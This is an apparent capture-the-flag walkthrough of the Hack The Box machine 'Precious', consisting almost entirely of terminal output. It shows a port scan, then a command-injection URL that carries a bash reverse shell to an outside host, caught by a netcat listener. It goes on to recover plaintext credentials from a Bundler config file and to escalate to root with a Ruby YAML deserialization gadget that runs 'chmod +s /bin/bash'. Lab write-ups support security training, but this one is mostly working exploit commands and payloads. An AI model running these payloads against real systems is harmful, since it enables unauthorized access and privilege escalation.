 └─$ nmap -A -p- -T4 -Pn 10.10.11.189
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-09 10:49 CST
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.069s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Convert Web Page to PDF
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.97 seconds




http://10.10.16.11/?name=#{'%20`bash -c 'exec sh -i >& /dev/tcp/10.10.16.11/1234 0>&1'`'}

└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.11] from (UNKNOWN) [10.10.11.189] 49954
sh: 0: can't access tty; job control turned off
$ id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)

ruby@precious:/home/henry$ cat dependencies.yml
cat dependencies.yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve

ruby@precious:~$ ls -la .bundle
ls -la .bundle
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .
drwxr-xr-x 5 ruby ruby 4096 Dec  9 12:09 ..
-r-xr-xr-x 1 root ruby   62 Sep 26 05:04 config
ruby@precious:~$ cat .bundle/config
cat .bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~$ su henry
su henry
Password: Q3c1AqGHtoI0aXAYFH

bash-5.1$ id
id
uid=1000(henry) gid=1000(henry) groups=1000(henry)


bash-5.1$ cat user.txt
cat user.txt
5a1cb***************************

bash-5.1$ cd /home/henry
cd /home/henry
bash-5.1$ ruby /opt/update_dependencies.rb
ruby /opt/update_dependencies.rb
sh: 1: reading: not found
chmod: changing permissions of '/bin/bash': Operation not permitted
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
	29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
	25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
	21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
	20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
	19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
	18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
	14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
	13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
	12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
	11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
	10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
	 9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
	 8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
	 7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
	 6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
	 5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	 4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
	 3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
	 2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	 1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
bash-5.1$ bash -p
bash -p
bash-5.1# id
id
uid=1000(henry) gid=1000(henry) euid=0(root) egid=0(root) groups=0(root),1000(henry)






bash-5.1# cat /root/root.txt
cat /root/root.txt
b3796***************************
